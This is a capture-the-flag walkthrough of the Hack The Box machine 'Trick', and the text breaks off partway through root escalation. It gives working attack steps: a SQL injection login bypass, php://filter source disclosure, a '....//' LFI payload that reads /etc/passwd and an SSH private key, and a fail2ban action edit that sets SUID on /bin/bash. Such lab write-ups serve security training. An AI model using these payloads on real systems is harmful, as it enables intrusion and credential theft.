# HTB - Trick

**IP Address:** `10.129.227.180`  
**OS:** Linux (Debian 10, inferred from OpenSSH, BIND, and nginx fingerprints)  
**Difficulty:** Easy  
**Tags:** #htb #linux #dns #lfi #fail2ban #sqli

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-trick.md`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

Trick exposes SSH, SMTP, DNS, and HTTP. The default site on port 80 is a generic “coming soon” page, so enumeration moves to **authoritative DNS** on port 53, which reveals `trick.htb` and, via **zone transfer**, the `preprod-payroll.trick.htb` vhost. The payroll application allows a **SQL injection authentication bypass** and **local file read** through the `page` parameter using **`php://filter`**, which discloses MySQL credentials from `db_connect.php`. **Host-header fuzzing** surfaces `preprod-marketing.trick.htb`, where a **`....//` bypass** defeats a naive path sanitizer and enables **LFI**, including **`michael`’s SSH private key**. After SSH as `michael`, **`sudo` permits restarting fail2ban** without a password; **writable fail2ban action configuration** (via group `security`) allows a ban event to execute **`chmod u+s /bin/bash`**, and **`bash -p`** yields root.

---
## Skills Required

- Basic DNS (reverse lookup, AXFR, `/etc/hosts` for vhosts)
- Web testing (SQLi, LFI, PHP wrappers)
- Linux privilege escalation basics (`sudo`, SUID, service configuration)

## Skills Learned

- Relating an open **DNS** service to **vhost** discovery and zone data
- Using **`php://filter`** for source disclosure when includes are unsafe
- Bypassing simple `../` stripping with **`....//`** in LFI
- Abusing **fail2ban** action scripts together with **`sudo` service restart** to reach root

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.227.180
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.227.180 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,25,53,80 10.129.227.180 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | ssh | OpenSSH 7.9p1 Debian 10+deb10u2 |
| 25/tcp | smtp | Port open; NSE SMTP enumeration did not complete cleanly in this run |
| 53/tcp | domain | ISC BIND 9.11.5-P4-5.1+deb10u7 |
| 80/tcp | http | nginx 1.14.2; title “Coming Soon - Start Bootstrap Theme” |

---
## 2. Service Enumeration

### 2.1 HTTP Root Fingerprint

The version scan already pointed to a placeholder landing page. Fingerprinting confirms nginx and little else on the bare IP, so the next step is **naming (DNS)** and **vhosts** rather than exhaustive directory brute force on `/` alone.

```bash
whatweb http://10.129.227.180
```



Map names locally. The zone lists `trick.htb` pointing at loopback; point these names at the **lab IP** in `/etc/hosts` for browsing:

```bash
# /etc/hosts (example)
# 10.129.227.180 trick.htb preprod-payroll.trick.htb preprod-marketing.trick.htb
```


---
### 2.2 DNS Reverse Lookup and Zone Transfer

Port 53 runs authoritative BIND and does not offer recursion, so query **this** resolver for PTR, then attempt **AXFR** on the discovered zone to list hostnames nginx may use as vhosts.

```bash
dig @10.129.227.180 -x 10.129.227.180
```



```bash
dig @10.129.227.180 axfr trick.htb
```



Optional: confirm the reported BIND build via CHAOS TXT:

```bash
dig @10.129.227.180 version.bind CHAOS TXT
```



---
### 2.3 Payroll vHost — Application Surface

After adding `preprod-payroll.trick.htb` to `/etc/hosts`, open the login page and confirm you are on the payroll vhost, not the default “coming soon” site.

```bash
# Browser: http://preprod-payroll.trick.htb/login.php
```



---
### 2.4 Payroll vHost — Authentication Bypass

Default credentials did not work in this run. A **SQL injection–style login bypass** in the username field reaches the administrative UI (“Recruitment Management System”).

```bash
# Browser — username field (payload from notes):
# ' or 1=1-- -
```



---
### 2.5 Payroll vHost — Source Disclosure via php://filter

The application uses a `page` parameter consistent with dynamic includes. Requesting **`php://filter/convert.base64-encode`** returns Base64-wrapped PHP source; decoding reveals included files and, in `db_connect.php`, **MySQL credentials** for user `remo` (redact before publishing).

Request the wrapped source in the browser:

```bash
# Browser URL:
# http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=home
```



Decode the Base64 locally to inspect `home` (it includes `db_connect.php`):

```bash
echo '<BASE64_FROM_PAGE>' | base64 -d
```



Repeat for `db_connect`:

```bash
# Browser URL:
# http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=db_connect
```



```bash
echo '<BASE64_FROM_PAGE>' | base64 -d
```



**Recovered (sensitive):** MySQL user `remo`, database `payroll_db`, and password as shown in the decoded file (see local notes; redact in public writeups).

---
### 2.6 Marketing vHost Discovery (wfuzz)

With payroll mapped, fuzz the **`Host`** header against `http://trick.htb` so nginx exposes vhosts that differ from the default page.

```bash
wfuzz -c --hw=475 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -H "Host: preprod-FUZZ.trick.htb" http://trick.htb
```



The same wordlist run with a slightly different **`Host`** template also matched **`marketing`** in this engagement:

```bash
wfuzz -c --hw=475 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -H "Host: FUZZ.trick.htb" http://trick.htb
```

After adding `preprod-marketing.trick.htb` to `/etc/hosts`, the site loads a template application; the `page` parameter is the primary pivot for LFI testing.


---
### 2.7 Marketing vHost — LFI and `/etc/passwd`

The marketing site includes `page` with a **`../` sanitizer** that can be bypassed using **`....//`**. Reading `/etc/passwd` confirms LFI and lists local users, including **`michael`**.

```bash
# Browser URL:
# http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//etc/passwd
```



---
### 2.8 Marketing vHost — SSH Private Key Exfiltration

Using the same primitive, read **`/home/michael/.ssh/id_rsa`** (adjust the number of `....//` segments to match your path depth), save the key on the attacker host, fix permissions, and SSH. The screenshot below shows the key material after saving it as `id_rsa` and running `cat id_rsa`.

```bash
# Browser URL (depth as in your successful request):
# http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa
```



If SSH prints `Load key "id_rsa": Permission denied`, the key file is often **root-owned** after an edit with `sudo`; assign ownership to your user and retry.

```bash
ls -l id_rsa
chown "$USER:$USER" id_rsa
chmod 600 id_rsa
ssh -i ./id_rsa michael@10.129.227.180
```


---
## 3. Foothold

### 3.1 Shell as michael and User Flag

Confirm the session and read the user flag.

```bash
whoami
id
cat ~/user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 sudo fail2ban Restart and Writable `action.d`

`michael` is in group **`security`**, which allows taking ownership of a fail2ban action file: rename the stock `iptables-multiport.conf`, copy it back so the copy is owned by `michael`, then set **`actionban`** and **`actionunban`** to a command fail2ban runs as root—here **`chmod u+s /bin/bash`**. Restart fail2ban with **`sudo`** and force an SSH ban from your attacker IP so the action runs.

```bash
sudo -l
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
mv iptables-multiport.conf iptables-multiport.bak
cp iptables-multiport.bak iptables-multiport.conf

# edit iptables-multiport.conf — set actionban / actionunban as in your notes
sudo nano /etc/fail2ban/action.d/iptables-multiport.conf
```



Set both **`actionban`** and **`actionunban`** to **`chmod u+s /bin/bash`** (or your chosen payload), save, then restart the service:

